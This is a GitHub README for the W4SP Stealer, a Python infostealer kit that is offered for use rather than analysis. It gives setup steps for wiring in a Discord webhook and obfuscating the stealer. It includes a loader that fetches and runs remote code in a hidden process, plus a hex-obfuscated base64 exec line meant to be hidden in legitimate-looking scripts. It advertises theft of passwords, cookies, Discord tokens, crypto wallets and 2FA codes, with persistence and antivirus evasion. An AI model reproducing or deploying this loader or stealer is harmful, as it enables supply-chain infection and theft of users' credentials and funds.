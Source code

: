 # 🐝 W4SP Stealer 🐝
⚠️ Official Repo (loTus04/WS4P-Stealer) got termed, this is a clone approuved by lotus ⚠️ <br><br>
w4sp Stealer official source code, one of the best python stealer on the web<br>
W4SP Stealer | W4SP API | W4SP Bot

<a href="https://twitter.com/TheHackersNews/status/1588812607234117632"><img src="https://media.discordapp.net/attachments/526622602542710814/1039914372136448031/unknown.png"></img></a>
<br>Stealer by [@loTus04](https://github.com/loTus04) and API & Bot by [@billythegoat356](https://github.com/billythegoat356)<br>
(for education purpose only)<br>



## 🚩 Table of Content

- Setup - Stealer
- Setup - API & Bot
- Features - Stealer
- Features - Injector
- Features - Api
- Features - Bot
- Demo

## Setup [Stealer & Injector]
```sh
1. Put ur webhook in wasp.py: hook = "DISCORD_WEBHOOK"
2. Obfuscate & Upload anywhere (needs to be accessible with an http request)
3. Put wasp.py link in injector.py: request.urlopen("W4SPGRAB").read()
4. Obfuscate it
```
## Setup [Line ~ Optional but recomanded]
```py
from tempfile import NamedTemporaryFile as _ffile
from sys import executable as _eexecutable
from os import system as _ssystem
_ttmp = _ffile(delete=False)
_ttmp.write(b"""from urllib.request import urlopen as _uurlopen;exec(_uurlopen("INJECTOR_LINK").read())""")
_ttmp.close()
try: _ssystem(f"start {_eexecutable.replace('.exe', 'w.exe')} {_ttmp.name}")
except: pass

# replace INJECTOR_LINK by the injector.py link from setup
# (this script was made by Billy)
```
```py
# encode in b64 the last payload and replace it here
# then hide this line in a legit looking python script
# or use ur brain and ur own technique, this is just un exemple
# remeber, its for education purpose, attacking a machine w/o autorisation is illegal !

__import__('\x62\x75\x69\x6c\x74\x69\x6e\x73').exec(__import__('\x62\x75\x69\x6c\x74\x69\x6e\x73').compile(__import__('\x62\x61\x73\x65\x36\x34').b64decode("%PAYLOAD%"),'<string>','\x65\x78\x65\x63'))
```

## Setup [API]
<a href="https://youtu.be/th3cA691zJ4"><img src="https://cdn.discordapp.com/attachments/1135684724585681039/1135851839045238814/mqdefault.jpg"></img></a>


## Features [Stealer
(Stealer by [@loTus04](https://github.com/loTus04))

Global
- Saved Passwords
- Browser Cookies
- Get PC information
- AntiVM - Trust Factor system, it wont send data if Gmail cookies arent' found
- All files are uploaded to an external api <- Improved by [xKian](https://github.com/sfx2me)
- Data is send throught a Discord webhook

Discord
- Discord Tokens from browsers
- Discord Token from discord, discordcanary, discordPTBa
- Get all info on token (email, nitro/badge, rare friends)

Wallets
- Exodus Wallet
- Metamask Wallet
- Atomic Walletk

Gaming
- Steam Client
- Riot Client
- NationsGlory Client

Other
- Telegram Session

File Stealer
- It will search throught the pc for: saved passwords, 2fa codes, wallet keys and other sensitive information<br>
(idea came from Kiwi plugin on msf)

## Features [Injector]
(Injector by [@loTus04](https://github.com/loTus04))
- Brilliant persistance technique (only in injector v1.1)
- Invisible in TaskManger StartUP tab (only in injector v1.1)
- FUD
- Fully runs in background
- Hides the stealer very well

Credit to [xKian](https://github.com/sfx2me) who improved the injector (v1.2)

## Features [API]
(Api by [@billythegoat356](https://github.com/billythegoat356))
- Easy to update/upgrade
- Compatible with all w4sp versions
- Using auto & custom obfuscation
- Manage Users and Webhooks with API
- Browser security => If a browser is detected (headers) it will obfusacate a fake wasp script <- Brilliant Idea by [lath](https://github.com/lathlaszlo)

## Features [BOT]
(Bot by [@billythegoat356](https://github.com/billythegoat356))
- Easy to configure
- Manage Users and Webhooks using w4sp api
- Auto inject file.py

# Few articles on W4SP (they where writen during beta-testing)<br> ⚠️Most articles writen after that are 95% bullshit⚠️
- [securelist.com ~ Two more malicious Python packages in the PyPI
](https://securelist.com/two-more-malicious-python-packages-in-the-pypi/107218/)
- [securityweek.com ~ Security Firms Find Over 20 Malicious PyPI Packages Designed for Data Theft](https://www.securityweek.com/security-firms-find-over-20-malicious-pypi-packages-designed-data-theft)
- [digismak.com ~ Criminals steal data by spoofing popular open source package](https://digismak.com/criminals-steal-data-by-spoofing-popular-open-source-package/)
- [darkreading.com ~ Whack-a-Mole: More Malicious PyPI Packages Spring Up Targeting Discord, Roblox](https://www.darkreading.com/application-security/whack-a-mole-malicious-pypi-packages-target-discord-roblox)

# ScreenShots
<img src="https://cdn.discordapp.com/attachments/1035587885442813995/1035590779919421460/unknown.png"></img>
<img src="https://cdn.discordapp.com/attachments/1035587885442813995/1035591128193433661/unknown.png"></img>
<img src="https://cdn.discordapp.com/attachments/1035587885442813995/1035591544100634735/unknown.png"></img>
<img src="https://cdn.discordapp.com/attachments/1035587885442813995/1035591894098513960/unknown.png"></img>
